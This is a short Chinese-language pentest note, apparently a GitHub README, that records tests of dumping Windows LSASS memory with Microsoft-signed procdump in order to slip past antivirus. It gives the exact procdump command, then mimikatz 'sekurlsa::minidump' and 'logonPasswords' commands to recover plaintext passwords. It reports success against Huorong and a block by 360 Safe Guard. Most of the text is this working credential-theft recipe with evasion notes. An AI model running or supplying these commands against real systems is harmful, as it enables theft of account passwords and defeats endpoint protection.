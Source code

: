 ### 0x00 基本原理
利用procdump是微软签名的程序，自带免杀性  
这里要注意：需要使用64位的procdump以及64位的mimikatz

### 0x01 测试火绒过程记录
受害虚拟机：Windows 2008 R2安装火绒  
上传procdump64.exe到受害机后执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
提取进程lsass.exe的内存到文件lsass.dmp中，如下图  
![image](./pic/0.png)  
下载提取到的lsass.dmp到攻击机的64位mimikatz目录下，执行命令
```
.\mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::logonPasswords full" exit
```
成功解密出密码，如下图  
![image](./pic/1.png)  

### 0x02 测试360安全卫士过程记录
受害虚拟机：Windows 2008 R2安装360安全卫士  
执行命令
```
.\procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```
会被拦截，如下图  
![image](./pic/2.png)  
